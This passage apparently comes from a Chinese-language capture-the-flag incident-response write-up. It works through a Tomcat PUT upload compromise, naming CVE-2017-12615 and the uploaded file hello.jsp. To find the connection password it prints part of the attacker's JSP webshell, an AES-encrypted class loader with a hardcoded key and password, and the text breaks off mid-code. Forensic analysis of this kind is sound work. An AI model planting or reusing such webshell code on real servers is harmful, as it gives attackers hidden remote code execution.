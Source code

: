 使用 `tomcat PUT file upload CVE` 作为关键词进行搜索，可以定位到两个漏洞

- CVE-2017-12615
- CVE-2017-12617

两个答案都试着提交一下就行了

```flag
flag{CVE-2017-12615}
```

## 3

> 黑客上传的木马文件名是什么？(提交文件名)

在上一题的请求中就有

```flag
flag{hello.jsp}
```

## 4

> 黑客上传的木马连接密码是什么？

提取攻击者上传的 jsp 文件的源码

```java
<% !String xc = "1710acba6220f62b";
String pass = "7f0e6f";
String md5 = md5(pass + xc);
class X extends ClassLoader {
    public X(ClassLoader z) {
        super(z);
    }
    public Class Q(byte[] cb) {
        return super.defineClass(cb, 0, cb.length);
    }
}
public byte[] x(byte[] s, boolean m) {
    try {
        javax.crypto.Cipher c = javax.crypto.Cipher.getInstance("AES");
        c.init(m ? 1 : 2, new javax.crypto.spec.SecretKeySpec(xc.getBytes(), "AES"));
        return c.doFinal(s);
    } catch (Exception e) {
        return null;
    }
}
public static String md5(String s) {
    String ret = null;
    try {
        java.security.MessageDigest m;
        m = java.security.MessageDigest.getInstance("MD5");
        m.update(s.getBytes(), 0, s.length());
        ret = new java.math.BigInteger(1, m.digest()).toString(16).toUpperCase();
    } catch (Exception e) {}
    return ret;
}
public static String base64Encode(byte[] bs) throws Exception {
    Class base64;
    String value = null;
    try {
        base64 = Class.forName("java.util.Base64");
        Object Encoder = base64.getMethod("getEncoder", null).invoke(base64, null);
        value = (String) Encoder.getClass().getMethod("encodeToString", new Class[] {
            byte[].class
        }).invoke(Encoder, new Object[] {
```